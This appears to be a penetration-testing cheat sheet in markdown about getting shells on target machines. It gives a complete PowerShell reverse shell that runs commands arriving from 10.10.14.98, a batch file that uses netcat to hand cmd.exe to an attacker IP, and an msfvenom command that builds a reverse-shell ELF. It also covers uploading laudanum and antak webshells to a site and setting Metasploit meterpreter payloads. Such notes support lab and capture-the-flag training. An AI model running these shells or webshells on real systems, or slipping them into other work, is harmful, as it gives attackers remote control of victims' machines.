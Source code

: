 

# Windows reverse shells
## Basic powershell reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.98',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## reverse shell dll

```


```
## reverse shell .bat
```
@echo off
set ATTACKER_IP=10.10.14.98
set PORT=1234

nc.exe %ATTACKER_IP% %PORT% -e cmd.exe
```
## Nishang


# Webshells

## laudanum
Find the type of shell needed, make copy


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bc795f21-8190-4590-a4a3-2fb35488a5fa)
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/54a0b631-94a3-4ce9-a001-6e5c213c3a7b)


Add our IP


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/a8ee9650-7b22-4c93-9136-a06e2fe8129a)

Upload file to site, go to location of file.


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/d49eabfc-1581-497d-bc91-b7346bb9d019)

### antak

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7d56c6d0-80cf-4e78-92c7-b43b8326ebf2)

change login info

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0393c2f3-08b3-4015-a1ce-699bbed4e6b2)

Upload go to shell page

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/f5158b1f-e185-4343-9278-23ea1ece5ecc)# Payloads


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/49b877f9-8979-4760-9b1f-038c410c9e7f)


# Shells with Metasploit

## Staged vs non staged
```
In Metasploit, the “/” character is used to denote whether a payload is staged or not,
so shell_reverse_tcp at index 20 is not staged, whereas shell/reverse_tcp at index 15 is.
```

## msfvenom

![Pasted image 20230508141045](https://github.com/dbissell6/Shadow_Stone/assets/50979196/988055f3-d9a3-4b0a-9e5b-be91b0886c30)

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.34 LPORT=9999 -f elf -o shell.elf
```


## msfconsole

g will set variable as global, useful when trying different exploits
`setg rhosts 10.10.10.10`


![Pasted image 20230508141206](https://github.com/dbissell6/Shadow_Stone/assets/50979196/efbcf2e5-fec1-4485-ba20-5e988702c92b)


`set payload windows/meterpreter/reverse_tcp`


## show system arch vs payload arch

![Pasted image 20230508154055](https://github.com/dbissell6/Shadow_Stone/assets/50979196/31f9ac3d-5efb-4b31-9237-f0b652376925)

Now can
```
set payload windows/x64/meterpreter/reverse_tcp
```
# Sliver

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/47d173f7-f725-4f09-a7d5-407fd6d67398)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/61c75ccc-9ad2-4aaa-a186-458ebf22ddff)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/5844f8d6-9654-4bbf-9079-357bb7c5161e)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/66e93bb6-8523-46fb-9753-ae8fcbda44ee)
